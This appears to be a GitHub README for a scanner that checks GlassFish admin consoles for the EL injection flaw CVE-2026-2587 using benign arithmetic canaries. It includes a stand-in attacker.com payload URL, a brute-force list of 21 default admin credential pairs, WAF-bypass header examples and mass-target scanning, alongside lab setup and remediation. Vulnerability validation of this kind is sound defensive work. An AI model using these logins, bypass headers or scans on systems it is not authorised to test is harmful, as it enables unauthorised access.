

# CVE-2026-2587 Exploit PoC — Eclipse GlassFish EL Injection RCE Validator

Safe PoC validator for CVE-2026-2587, a critical EL Injection / RCE issue affecting Eclipse GlassFish admin console gadget handling via `/common/gadgets/gadget.jsf`.

This tool helps security teams validate GlassFish CVE-2026-2587 exposure in authorized environments using a benign arithmetic EL canary.

<p align="left">
  
  
  
  
  
</p>

> **Assigned by:** Eclipse Foundation (CNA) · **Published:** May 19, 2026
> **CVSS:** `9.6 Critical` · `AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H`
> **CWE:** CWE-917 — Expression Language Injection
> **Affected versions:** `Unknown` in the public advisory as of May 21, 2026
> **Patched versions:** `Unknown` in the public advisory as of May 21, 2026
> **Scanner rule:** version is routing/reporting context only; the verdict requires proof.

---

## Table of Contents

- [Vulnerability Summary](#vulnerability-summary)
- [How It Works](#how-it-works)
- [Auth Requirements](#auth-requirements)
- [Setup](#setup)
- [Lab Environment (Docker)](#lab-environment-docker)
- [Generating a Probe XML](#generating-a-probe-xml)
- [Usage — Single Target](#usage--single-target)
  - [Localhost / Docker](#localhost--docker)
  - [Credentials](#credentials)
  - [Brute-Force Login](#brute-force-login)
  - [Remote via Cloudflare Tunnel](#remote-via-cloudflare-tunnel)
  - [Pre-Hosted Static XML](#pre-hosted-static-xml)
  - [Remote via ngrok (last resort)](#remote-via-ngrok-last-resort)
  - [Unauthenticated Check Only](#unauthenticated-check-only)
- [Usage — Multiple Targets](#usage--multiple-targets)
  - [Targets File Format](#targets-file-format)
  - [Parallel Scanning](#parallel-scanning)
- [Output Formats](#output-formats)
  - [Console](#console)
  - [CSV](#csv)
  - [JSON](#json)
  - [Combining Outputs](#combining-outputs)
- [Advanced Options](#advanced-options)
  - [Endpoint and Version Discovery](#endpoint-and-version-discovery)
  - [Custom Canary Values](#custom-canary-values)
  - [Custom Headers](#custom-headers)
- [Test Cases](#test-cases)
- [Output Interpretation](#output-interpretation)
- [Manual Verification](#manual-verification)
- [Remediation](#remediation)
- [References](#references)
- [Disclaimer](#disclaimer)

---

## Vulnerability Summary

A critical Remote Code Execution vulnerability exists in the **GlassFish admin console gadget handler**. The application processes `.xml` files fetched from a URL supplied via the `gadget=` query parameter and evaluates user-supplied values inside `<ModulePrefs>` attributes through the **Java Expression Language (EL) engine without sanitisation or escaping**.

```
GET /common/gadgets/gadget.jsf?gadget=http://attacker.com/payload.xml
```

If the XML contains `#{7*7}` in a `<ModulePrefs title="">` attribute, GlassFish evaluates it server-side and returns `49` — confirming EL execution. A full RCE chain follows via EL's access to the Java runtime.

Current public advisory records do not publish an affected or patched version
boundary. This validator is therefore proof-first: it fingerprints GlassFish and
reports version metadata, but it does not classify a target as vulnerable from a
version string alone.

---

## How It Works



The safe validation path hosts a benign XML probe, sends an authenticated admin-console request to `gadget.jsf`, lets GlassFish fetch that XML from the callback URL, and checks whether the `<ModulePrefs title="">` canary evaluates from `#{7*7}` to `49`.

**Injection point confirmed vs. not:**

```xml
<!-- ✅ EL IS evaluated -->
<ModulePrefs title="#{7*7}" />              <!-- returns 49 -->
<ModulePrefs description="#{7*7}" />        <!-- returns 49 -->

<!-- ❌ EL NOT evaluated -->
<Content type="html">
  <![CDATA[ #{7*7} ]]>                      <!-- returns #{7*7} literally -->
</Content>
```

---

## Auth Requirements

| Scenario | Auth needed? |
|---|---|
| Direct hit to `gadget.jsf` | Yes — FORM auth, 200 login page |
| Real-world CSRF attack | No — weaponises admin's live session |
| This validator | Yes — `--cookie` or `--username`/`--password` |
| Unauthenticated exposure check | No — script tests this automatically |

The CVSS vector `PR:N / UI:R` means:

- `PR:N` — attacker needs **no credentials of their own**
- `UI:R` — a logged-in admin must interact (CSRF delivery)

For lab validation, skip CSRF entirely — use your own admin session directly.

---

## Setup

**Requirements:** Python 3.9+ · `requests`

```bash
git clone https://github.com/Bhanunamikaze/CVE-2026-2587-Exploit-POC
cd CVE-2026-2587-Exploit-POC
pip install requests
# optional for coloured terminal output:
pip install colorama
```

**Repo contents:**

```
CVE-2026-2587-Exploit-POC/
├── assets/
│   └── cve-2026-2587-validation-flow.png  ← README workflow diagram
├── CVE-2026-2587-Exploit-POC.py   ← main script
├── probe.xml                   ← ready-to-host static probe XML
├── targets.txt.example         ← multi-target file template
└── README.md
```

---

## Lab Environment (Docker)

> **Caveat:** GHSA still lists affected and patched versions as unknown.
> `omnifish/glassfish:7.0.15` is a strong lab candidate — not a guaranteed vulnerable build.
> The validation primitive remains the arithmetic canary: if `#{7*7}` evaluates to `49`, EL is active.

### Option A — docker compose (recommended)

```bash
# from the repo root
docker compose -f docker-compose.lab.yml up
```

Brings up GlassFish 7.0.15 with ports bound to `127.0.0.1` only and
`host.docker.internal` pre-wired so the container can reach your local XML server.

### Option B — bare docker run

```bash
docker run --rm \
  --name gf-cve-2026-2587-lab \
  -p 127.0.0.1:8080:8080 \
  -p 127.0.0.1:4848:4848 \
  --add-host=host.docker.internal:host-gateway \
  omnifish/glassfish:7.0.15
```

Admin console: `https://localhost:4848` · Login: `admin` / `admin`
(Self-signed cert — browser warning is expected.)

---

### Serve the benign probe XML

In a second terminal:

```bash
# The repo ships with probe.xml — serve it directly:
python3 -m http.server 8000 --bind 0.0.0.0
```

Verify reachability from the container's perspective:

```bash
docker exec gf-cve-2026-2587-lab \
  curl -s http://host.docker.internal:8000/probe.xml | head -5
```

---

### Manual trigger

Log into the admin console first (browser session or `--cookie`), then:

```bash
curl -sk \
  -H "Cookie: JSESSIONID=YOUR_SESSION_ID" \
  "https://localhost:4848/common/gadgets/gadget.jsf?gadget=http%3A%2F%2Fhost.docker.internal%3A8000%2Fprobe.xml" \
  | grep -oE 'CVE2587_(TITLE|BODY)_[^"< ]+'
```

| Output | Meaning |
|---|---|
| `CVE2587_TITLE_49_END` | **Vulnerable** — EL evaluated in `ModulePrefs title` |
| `CVE2587_BODY_49_END` | **Vulnerable** — EL evaluated in CDATA body |
| `CVE2587_TITLE_#{7*7}_END` | Not vulnerable / EL not evaluated |
| *(no output)* | GlassFish never fetched the XML — check callback reachability |

> The CDATA body typically stays raw even on vulnerable builds; a positive `TITLE` result alone is sufficient to confirm the finding.

---

### Automated validation against the local lab

```bash
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://localhost:4848 \
  --listen 0.0.0.0:8000 \
  --callback-url http://host.docker.internal:8000 \
  --username admin --password admin \
  --insecure --verbose
```

---

## Generating a Probe XML

The repo ships with `probe.xml` ready to use. You can also generate a fresh one at any time — useful when you want a custom canary prefix or randomised values so the probe is unique per engagement.

```bash
# Generate with default values (CVE2587 prefix, #{7*7})
python3 CVE-2026-2587-Exploit-POC.py --generate-xml probe.xml

# Generate with custom prefix and operands
python3 CVE-2026-2587-Exploit-POC.py \
  --generate-xml probe.xml \
  --prefix MYTEST --left 13 --right 17

# Print to stdout (pipe to a server, gist, etc.)
python3 CVE-2026-2587-Exploit-POC.py --generate-xml -

# Generate with random values (different every run)
python3 CVE-2026-2587-Exploit-POC.py \
  --generate-xml probe_$(date +%s).xml \
  --prefix SCAN$(date +%s) --left 31 --right 127
```

Output after writing to a file:

```
[+] probe XML written → probe.xml
    Expression  : #{7*7}
    Expects     : CVE2587_TITLE_49_END  in response title
    Host this file at a URL reachable by the target server.
    Then run:
      --xml-url http://YOUR_SERVER/probe.xml
      --prefix CVE2587 --left 7 --right 7
```

---

## Usage — Single Target

### Localhost / Docker

Use when GlassFish is running locally or in Docker on the same machine.

Grab your `JSESSIONID` from browser DevTools → Application → Cookies while logged into the admin console, then:

```bash
# Docker — GlassFish in container, script on host
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://localhost:4848 \
  --listen 0.0.0.0:8000 \
  --callback-url http://host.docker.internal:8000 \
  --cookie "JSESSIONID=YOUR_SESSION_ID" \
  --insecure --verbose

# Localhost (no Docker)
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://localhost:4848 \
  --listen 0.0.0.0:8000 \
  --callback-url http://127.0.0.1:8000 \
  --cookie "JSESSIONID=YOUR_SESSION_ID" \
  --insecure
```

> `host.docker.internal` resolves to the host machine from inside Docker.
> The GlassFish container fetches your probe XML via this address.

---

### Credentials

```bash
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://localhost:4848 \
  --listen 0.0.0.0:8000 \
  --callback-url http://host.docker.internal:8000 \
  --username admin --password admin \
  --insecure --verbose
```

> If form login fails, the script falls through and tries the endpoint anyway.
> If that also fails, it prints step-by-step instructions to get a session cookie.

---

### Brute-Force Login

When you have no credentials at all, `--brute` tries 21 common GlassFish default
credential pairs in order and uses the first one that succeeds.
Mutually exclusive with `--username` and `--cookie`.

```bash
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://localhost:4848 \
  --listen 0.0.0.0:8000 \
  --callback-url http://host.docker.internal:8000 \
  --brute --insecure --verbose
```

If a valid pair is found it is printed in the output and recorded in the CSV
`brute_creds` column. If all pairs fail the scan exits with `AUTH_REQUIRED`.

Some GlassFish builds return `/login.jsf` after a valid form POST. The validator
does not treat that URL alone as failure; it confirms the session by probing the
admin gadget endpoint and checking that the response is not the login form.

Credential list tried (in order):

| Username | Password |
|---|---|
| `admin` | `admin` |
| `admin` | *(empty)* |
| `admin` | `adminadmin` |
| `admin` | `password` |
| `admin` | `admin123` |
| `admin` | `Admin1234` |
| `admin` | `glassfish` |
| `admin` | `glassfishadmin` |
| `admin` | `changeit` |
| `admin` | `changeme` |
| `admin` | `secret` |
| `admin` | `welcome1` |
| `admin` | `oracle` |
| `admin` | `Oracle123` |
| `administrator` | `administrator` |
| `administrator` | `password` |
| `administrator` | `admin` |
| `glassfish` | `glassfish` |
| `root` | `root` |
| `root` | `password` |
| `root` | `toor` |

---

### Remote via Cloudflare Tunnel

No account required for a quick tunnel.

**Step 1 — Install cloudflared:**

```bash
# macOS
brew install cloudflared

# Linux
wget -q https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-amd64.deb
sudo dpkg -i cloudflared-linux-amd64.deb
```

**Step 2 — Start tunnel:**

```bash
# Terminal 1
cloudflared tunnel --url http://localhost:8000
# → https://random-words.trycloudflare.com
```

**Step 3 — Run the validator:**

Use the same generated hostname with `http://` for the callback URL. This avoids
JVM trust-store failures in GlassFish lab containers that cannot validate the
Cloudflare TLS certificate chain. If you paste the generated `https://`
trycloudflare URL, the validator rewrites that callback to `http://` and prints
a warning. A trailing slash is optional; the validator appends `/canary.xml` and
the per-test XML paths automatically.

```bash
# Terminal 2
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://REMOTE_TARGET:4848 \
  --listen 0.0.0.0:8000 \
  --callback-url http://random-words.trycloudflare.com \
  --cookie "JSESSIONID=YOUR_SESSION_ID" \
  --insecure
```

---

### Pre-Hosted Static XML

Use when you cannot run a local server. The target GlassFish JVM must be able
to fetch this URL directly, so plain HTTP on a trusted VPS/web server is often
more reliable than HTTPS hosts whose certificate chain is not trusted by the
target JVM.
The `--xml-url` flag bypasses the built-in server entirely.

Generate a fresh probe XML, then host it:

```bash
# Step 1 — generate
python3 CVE-2026-2587-Exploit-POC.py --generate-xml probe.xml

# Step 2 — host it (pick one)
python3 -m http.server 8000            # local, then expose via Cloudflare Tunnel
scp probe.xml user@YOUR_VPS:/var/www/  # VPS or any web server

# Step 3 — run (use the --prefix/--left/--right from the generate output)
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://TARGET:4848 \
  --xml-url http://YOUR_SERVER/probe.xml \
  --prefix CVE2587 --left 7 --right 7 \
  --cookie "JSESSIONID=YOUR_SESSION_ID" \
  --insecure
```

> `--prefix`, `--left`, `--right` must match the values inside your hosted XML file
> so the script knows which evaluated token to look for in the response.

---

### Remote via ngrok (last resort)

Use ngrok only as a last option for remote targets. The free tier can block
server-side fetches that do not come from a browser by returning an interstitial
HTML warning page. In that case GlassFish fetches the warning page instead of
your `probe.xml`, and the validator can classify the response as a login page or
inconclusive result. Prefer Cloudflare Tunnel, a VPS, or a static web host that
the target JVM can fetch cleanly unless you have a paid ngrok account that
bypasses this restriction.

**Step 1 — Install ngrok:**

```bash
# macOS
brew install ngrok

# Linux
curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc \
  | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null
echo "deb https://ngrok-agent.s3.amazonaws.com buster main" \
  | sudo tee /etc/apt/sources.list.d/ngrok.list
sudo apt update && sudo apt install ngrok
```

**Step 2 — Expose your local server:**

```bash
# Terminal 1
ngrok http 8000
# → Forwarding: https://abc123.ngrok-free.app -> http://localhost:8000
```

**Step 3 — Run the validator:**

```bash
# Terminal 2
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://REMOTE_TARGET:4848 \
  --listen 0.0.0.0:8000 \
  --callback-url https://abc123.ngrok-free.app \
  --cookie "JSESSIONID=YOUR_SESSION_ID" \
  --insecure
```

> Replace `abc123.ngrok-free.app` with your actual ngrok URL.
> The script starts its own XML server on `:8000`; ngrok forwards from the internet to it.

---

### Unauthenticated Check Only

Test whether the endpoint is accidentally exposed without auth before doing
a full authenticated scan. Exits immediately after Phase 1.

```bash
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://TARGET:4848 \
  --listen 0.0.0.0:8000 \
  --callback-url http://YOUR_IP:8000 \
  --check-unauth-only --insecure
```

---

## Usage — Multiple Targets

### Targets File Format

The repo includes `targets.txt.example` as a template. Copy and edit it:

```bash
cp targets.txt.example targets.txt
# edit targets.txt with your servers
```

Format — one target per line, lines starting with `#` and blank lines ignored,
per-target credentials override the global `--username`/`--password`:

```
# targets.txt

# format: URL
https://server1:4848

# format: URL  username  password
https://server2:4848  admin  password123
https://server3:4848  ops    secret99

# format: URL  username:password
https://server4:4848  admin:admin

# commented-out targets are skipped
# https://server5:4848
```

Run against all targets:

```bash
python3 CVE-2026-2587-Exploit-POC.py \
  --targets-file targets.txt \
  --listen 0.0.0.0:8000 \
  --callback-url https://random-words.trycloudflare.com \
  --username admin --password admin \
  --insecure \
  --csv results.csv
```

> Global `--username`/`--password` applies to targets with no per-line creds.
> Per-line creds take priority over globals.

---

### Parallel Scanning

Use `--threads` to scan multiple targets concurrently.
The built-in XML server is shared across all threads.

```bash
# Scan 10 targets at once
python3 CVE-2026-2587-Exploit-POC.py \
  --targets-file targets.txt \
  --listen 0.0.0.0:8000 \
  --callback-url https://random-words.trycloudflare.com \
  --username admin --password admin \
  --threads 10 \
  --insecure \
  --csv results.csv --json
```

> Recommended thread counts:
> - Local lab: up to `10`
> - Remote targets over internet: `3–5` (respect rate limits)
> - Single target: `1` (default)

---

## Output Formats

### Console

Default human-readable output. Add `--verbose` to see per-test-case results.

```
────────────────────────────────────────────────────────────────
  Target : https://localhost:4848
  Server : Eclipse GlassFish 7.0.15
  Version : Eclipse GlassFish 7.0.15  [asadmin-api]  (affected: UNKNOWN)
  Console : present  |  Gadget: present  |  Proof: evaluated
[+] VULNERABLE  —  9/10 test cases confirmed
[+]   TC-01 Basic multiply      #{7*7} → 49
[+]   TC-02 Addition            #{1337+2587} → 3924
[+]   TC-03 Large multiply      #{31337*271} → 8492327
    ...

    Remediation: restrict admin access and apply vendor-published fixed builds when available.
```

Multi-target summary:

```
════════════════════════════════════════════════════════════════
  SCAN SUMMARY  —  4 target(s)
════════════════════════════════════════════════════════════════
  Vulnerable      : 2
  Not vulnerable  : 1
  Auth required   : 1
  Error / other   : 0
════════════════════════════════════════════════════════════════
```

---

### CSV

```bash
# Write to file
--csv results.csv

# Write to stdout (pipe-friendly)
--csv -
```

CSV columns:

| Column | Description |
|---|---|
| `target` | Target URL |
| `timestamp` | UTC ISO-8601 scan time |
| `verdict` | `VULNERABLE` / `NOT_VULNERABLE` / `AUTH_REQUIRED` / `VULNERABLE_UNAUTH` / `ERROR` |
| `vulnerable_count` | Number of test cases that confirmed EL evaluation |
| `total_tests` | Total test cases run |
| `unauth_exposed` | `YES` if endpoint responded without auth |
| `active_endpoint` | Endpoint URL that was used for testing |
| `server_header` | `Server:` header from GlassFish |
| `detected_version` | Version string if fingerprinted |
| `version_source` | Source of the version value: header, REST/login page, or `asadmin-api` |
| `version_affected` | Advisory version status. Currently `UNKNOWN` because public affected/patched ranges are not published |
| `admin_console` | `present`, `not_found`, or `unknown` |
| `gadget_endpoint` | `present`, `blocked`, `not_found`, or `unknown` |
| `proof` | `evaluated`, `not_evaluated`, or `not_attempted` |
| `TC-01` … `TC-10` | Per-test result: `VULNERABLE` / `NOT_VULNERABLE` / `INCONCLUSIVE` / `SKIPPED` |
| `notes` | Error message if scan failed |

**Example rows:**

```csv
target,timestamp,verdict,vulnerable_count,total_tests,unauth_exposed,active_endpoint,server_header,detected_version,version_source,version_affected,admin_console,gadget_endpoint,proof,brute_creds,TC-01 Basic multiply,...,notes
https://server1:4848,2026-05-21T10:00:00+00:00,VULNERABLE,9,10,no,https://server1:4848/common/gadgets/gadget.jsf,Eclipse GlassFish 7.0.15,Eclipse GlassFish 7.0.15,asadmin-api,UNKNOWN,present,present,evaluated,,VULNERABLE,...,
https://server2:4848,2026-05-21T10:00:05+00:00,NOT_VULNERABLE,0,10,no,https://server2:4848/common/gadgets/gadget.jsf,Eclipse GlassFish 8.0.1,Eclipse GlassFish 8.0.1,header:Server,UNKNOWN,present,present,not_evaluated,,NOT_VULNERABLE,...,
https://server3:4848,2026-05-21T10:00:08+00:00,AUTH_REQUIRED,0,10,no,,,,,UNKNOWN,present,blocked,not_attempted,,,Session rejected or cookie expired
```

---

### JSON

```bash
--json
```

Single target:

```json
{
  "active_endpoint": "https://localhost:4848/common/gadgets/gadget.jsf",
  "admin_console": "present",
  "detected_version": "Eclipse GlassFish 7.0.15",
  "gadget_endpoint": "present",
  "proof": "evaluated",
  "server_header": "Eclipse GlassFish 7.0.15",
  "target": "https://localhost:4848",
  "tested_paths": [
    "https://localhost:4848/common/gadgets/gadget.jsf",
    "https://localhost:4848/admin/common/gadgets/gadget.jsf",
    "https://localhost:4848/console/common/gadgets/gadget.jsf",
    "https://localhost:4848/glassfish/common/gadgets/gadget.jsf",
    "https://localhost:4848/asadmin/common/gadgets/gadget.jsf"
  ],
  "timestamp": "2026-05-21T10:00:00+00:00",
  "verdict": "VULNERABLE",
  "version_affected": "UNKNOWN",
  "version_source": "asadmin-api",
  "vulnerable_count": 9,
  "total_tests": 10,
  "unauth_result": "AUTH_REQUIRED",
  "tc_results": [
    {"name": "TC-01 Basic multiply", "expr": "#{7*7}",
     "expects": "49", "status": "VULNERABLE"},
    {"name": "TC-02 Addition", "expr": "#{1337+2587}",
     "expects": "3924", "status": "VULNERABLE"}
  ]
}
```

Multiple targets returns a JSON array.

---

### Combining Outputs

All output formats are independent — combine freely:

```bash
# Console + CSV + JSON simultaneously
python3 CVE-2026-2587-Exploit-POC.py \
  --targets-file targets.txt \
  --listen 0.0.0.0:8000 \
  --callback-url https://random-words.trycloudflare.com \
  --username admin --password admin \
  --threads 5 --insecure --verbose \
  --csv results.csv \
  --json > results.json
```

---

## Advanced Options

### Endpoint and Version Discovery

By default the scanner tests the shared GlassFish gadget path under the common
admin GUI roots:

```text
/common/gadgets/gadget.jsf
/admin/common/gadgets/gadget.jsf
/console/common/gadgets/gadget.jsf
/glassfish/common/gadgets/gadget.jsf
/asadmin/common/gadgets/gadget.jsf
```

It also learns a non-default GUI context root from redirect `Location` headers
and prepends that root before testing. Use repeatable `--path` values only when
you want to override this discovery list.

Version detection is attempted from response headers, the management REST API,
the login page, and, after a successful login, `/__asadmin/version.json` or
`/__asadmin/version`. Version data improves routing and reporting only; the
scanner leaves `version_affected` as `UNKNOWN` until public advisory records
publish a version boundary.

---

### Custom Canary Values

Match the validator to a hand-crafted XML using `--prefix`, `--left`, `--right`.
Required when using `--xml-url` with your own hosted file.

```bash
# Matches: <ModulePrefs title="MYTEST_TITLE_#{13*17}_END" />
# Expects: MYTEST_TITLE_221_END in response
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://TARGET:4848 \
  --xml-url http://YOUR_SERVER/custom.xml \
  --prefix MYTEST --left 13 --right 17 \
  --cookie "JSESSIONID=YOUR_SESSION_ID" \
  --insecure
```

---

### Custom Headers

Add arbitrary headers — useful for WAF bypass, load balancer routing, or
testing behind a reverse proxy.

```bash
python3 CVE-2026-2587-Exploit-POC.py \
  --base https://TARGET:4848 \
  --listen 0.0.0.0:8000 \
  --callback-url http://YOUR_IP:8000 \
  --cookie "JSESSIONID=YOUR_SESSION_ID" \
  --header "X-Forwarded-For: 127.0.0.1" \
  --header "X-Original-URL: /common/gadgets/gadget.jsf" \
  --header "X-Custom-Header: value" \
  --proxy http://127.0.0.1:8080 \
  --insecure
```

---

## Test Cases

The validator runs 10 distinct EL probes, each confirming a different capability:

| # | Payload | Expected | What it proves |
|---|---|---|---|
| TC-01 | `#{7*7}` | `49` | Baseline arithmetic canary |
| TC-02 | `#{1337+2587}` | `3924` | Addition operator |
| TC-03 | `#{31337*271}` | `8492327` | Collision-resistant large multiply |
| TC-04 | `#{9999-1337}` | `8662` | Subtraction operator |
| TC-05 | `#{(6+1)*(6+1)}` | `49` | Nested parentheses / operator precedence |
| TC-06 | `#{1==1?'VULN':'SAFE'}` | `VULN` | Conditional / ternary — control flow executes |
| TC-07 | `#{'CVE'.concat('2026')}` | `CVE2026` | String method access |
| TC-08 | `#{'GL'.concat('ASS').concat('FISH')}` | `GLASSFISH` | Chained method calls |
| TC-09 | `#{17 mod 5}` | `2` | EL keyword operator |
| TC-10 | `#{100*100}` | `10000` | Additional arithmetic confirmation |

TC-06, TC-07, and TC-08 are the most significant — passing those means the EL engine executes **string API methods and conditional logic**, the direct precursor to the full RCE chain.

---

## Output Interpretation

| Status | Meaning |
|---|---|
| `VULNERABLE` | EL expression evaluated — instance confirmed affected |
| `VULNERABLE_UNAUTH` | Endpoint exposed without auth — worse than base CVE |
| `NOT_VULNERABLE` | Expression reflected literally — EL not evaluated |
| `AUTH_REQUIRED` | Endpoint returned login page — check cookie or credentials |
| `INCONCLUSIVE` | Response received but canary not found — see below |
| `ERROR` | Request failed — network / TLS issue |

`detected_version` and `version_source` are supporting context. Because public
advisories currently list affected and patched versions as unknown, do not treat
`version_affected=UNKNOWN` as a negative result. The only positive finding is an
evaluated proof token.

**INCONCLUSIVE troubleshooting:**

| Symptom | Cause | Fix |
|---|---|---|
| `XML hits: 0` | GlassFish never fetched your XML | `--callback-url` not reachable from the target |
| `XML hits: 1+` but no match | EL evaluated but wrong field | Expected for CDATA content |
| Auth redirect mid-run | Session expired | Grab a fresh `JSESSIONID` from browser |
| Login POST redirects to `j_security_check` | Wrong password | Use `--cookie` instead |

---

## Manual Verification

No Python required:

```bash
# Step 1 — create probe XML
mkdir probe && cat > probe/probe.xml << 'EOF'
<?xml version="1.0"?>
<Module>
  <ModulePrefs title="PROBE_#{7*7}_END"/>
  <Content type="html"><![CDATA[ok]]></Content>
</Module>
EOF

# Step 2 — serve it
python3 -m http.server 8000 --directory probe &

# Step 3 — hit the endpoint with your session cookie
curl -sk \
  -H "Cookie: JSESSIONID=YOUR_SESSION_ID" \
  "https://localhost:4848/common/gadgets/gadget.jsf?gadget=http://host.docker.internal:8000/probe.xml" \
  | grep -oE 'PROBE_[^"< ]+_END'

# Vulnerable output:
# PROBE_#{7*7}_END    ← raw (CDATA — expected)
# PROBE_49_END        ← evaluated ✅ VULNERABLE
```

---

## Remediation

| Action | Details |
|---|---|
| **Upgrade** | Apply the vendor-published fixed build when Eclipse/NVD/GHSA publish a patched version boundary |
| **Disable gadget handler** | Block `/common/gadgets/gadget.jsf` at WAF/firewall if unused |
| **Firewall admin console** | Restrict port `4848` to trusted IPs only |
| **CSRF protections** | Ensure `SameSite` cookie attribute on admin sessions |
| **WAF rule** | Block `#{` and `${` in XML bodies reaching the gadget endpoint |

---

## References

| Resource | Link |
|---|---|
| NVD | https://nvd.nist.gov/vuln/detail/CVE-2026-2587 |
| GitHub Advisory (GHSA) | https://github.com/advisories/GHSA-29wv-cv7p-xjc2 |
| Eclipse CVE Tracking | https://gitlab.eclipse.org/security/cve-assignment/-/issues/86 |
| Eclipse GlassFish Source | https://github.com/eclipse-ee4j/glassfish |
| CWE-917 | https://cwe.mitre.org/data/definitions/917.html |
| Reporter | Camilo G. (DeepSecurity Perú) — [@SeguridadBlanca](https://x.com/SeguridadBlanca) |

---

## Disclaimer

This repository is for **authorised security testing and research only**.

- Run this tool only on systems you own or have **explicit written permission** to test
- The validator performs **benign EL evaluation only** — no command execution, no reverse shell, no file upload, no persistence
- The author assumes no liability for misuse
- Responsible disclosure was followed — reported December 2025 and published May 2026

**Repo layout:**

```
CVE-2026-2587-Exploit-POC/
├── assets/
│   └── cve-2026-2587-validation-flow.png  ← README workflow diagram
├── CVE-2026-2587-Exploit-POC.py   ← validator script
├── probe.xml                   ← ready-to-host static probe XML  (#{7*7} canary)
├── targets.txt.example         ← multi-target file template
└── README.md
```

---

<p align="center">
  <a href="https://github.com/Bhanunamikaze">github.com/Bhanunamikaze</a>
</p>
